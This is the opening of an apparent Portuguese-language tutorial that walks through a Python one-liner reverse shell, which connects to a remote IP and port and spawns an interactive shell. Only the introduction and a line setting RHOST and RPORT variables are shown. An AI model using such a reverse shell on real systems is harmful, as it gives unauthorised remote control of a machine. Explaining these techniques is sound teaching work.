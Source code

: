
<h1 align="center">
   🔗 Code Review de um Reverse Shell
</h1>

Esse código é um exemplo de um "one-liner" em Python que pode ser usado para estabelecer uma conexão de rede com um servidor remoto em um determinado endereço IP (RHOST) 
porta (RPORT) e, em seguida, criar um shell interativo no servidor remoto. Vamos quebrar o código em detalhes! Então sente-se e bora hackear!


~~~shellscript
export RHOST="10.10.10.10"; export RPORT=9001;
